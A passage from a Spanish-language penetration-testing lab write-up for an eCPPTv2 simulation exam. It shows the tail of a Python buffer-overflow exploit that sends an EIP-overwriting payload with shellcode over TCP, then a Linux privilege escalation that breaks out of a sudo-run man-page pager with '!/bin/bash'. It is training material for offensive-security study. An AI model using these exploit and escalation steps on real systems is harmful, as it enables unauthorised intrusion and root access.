     # Payload
    payload = before_eip + eip + b"\x83\xEC\x10" + shellcode
    
    # Establecer conexión TCP
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, port))
    
    # Recibir el banner o respuesta de la conexión
    banner = s.recv(1024)
    
    # Envío de datos
    s.send(payload)
    
    # Cierre de conexión
    s.close()
    ```
    

Shell en Windows:

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 155.png)

## Escalada de privilegios

Shell en Linux:

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 156.png)

El usuario puede ejecutar como root un script y además este permite abrir el manual de algún comando.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 157.png)

Al abrir el manual del algún comando, se puede ejecutar una shell y escalar privilegios.

```bash
sudo /home/anansi/bin/anansi_util manual id

# Dentro del entorno paginated del manual ingresar:
!/bin/bash
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 158.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 159.png)

